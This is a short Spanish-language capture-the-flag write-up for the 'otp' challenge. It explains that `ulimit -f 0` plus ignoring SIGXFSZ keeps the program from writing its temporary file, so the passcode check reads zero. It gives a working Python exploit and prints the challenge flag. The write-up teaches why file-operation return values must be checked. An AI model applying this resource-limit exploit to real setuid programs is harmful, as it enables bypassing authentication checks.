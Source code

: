 # otp

<img width="134" height="167" alt="otp" src="https://github.com/user-attachments/assets/640eab5b-5e36-4ea0-9836-38f7903a2a3b" />

En https://linuxcommand.org/lc3_man_pages/ulimith.html podemos ver que `ulimit -f 0` podemos hacer que el tamaño máximo (en bloques de 512 bytes) de cualquier archivo que un proceso pueda crear mediante escritura sea 0. 

Esto provoca que no se pueda crear el archivo temporal y al intentar leer del archivo inexistente no se actualiza passcode, entonces passcode=0.

Sin embargo cuando el tamaño de un arhivo excede lo establecido por `ulimit` se lanza una excepcion `SIGXFSZ`.

Usando `trap 'commands' signal` en `bash` se puede personalizar el comportamiento de la terminal para una señal en especifico. Ignorando SIGXFSZ conseguimos la flag:

<img width="366" height="152" alt="2025-08-05-140945_1327x152_scrot" src="https://github.com/user-attachments/assets/9e448180-c058-4a4c-8140-dcce393c80b1" />

Otra forma es usando un subproceso. Por ejemplo con python:
``` py
import signal
import resource
import subprocess
import os

# ulimit -f 0
resource.setrlimit(resource.RLIMIT_FSIZE, (0, 0))

# preexec_fd sets the signal handler for the subprocess
subp = subprocess.Popen(
            ["/home/otp/otp", ""],
            preexec_fn=lambda: signal.signal(signal.SIGXFSZ, signal.SIG_IGN)
                )
subp.wait()
```

`f1le_0peration_r3turn_value_matters`
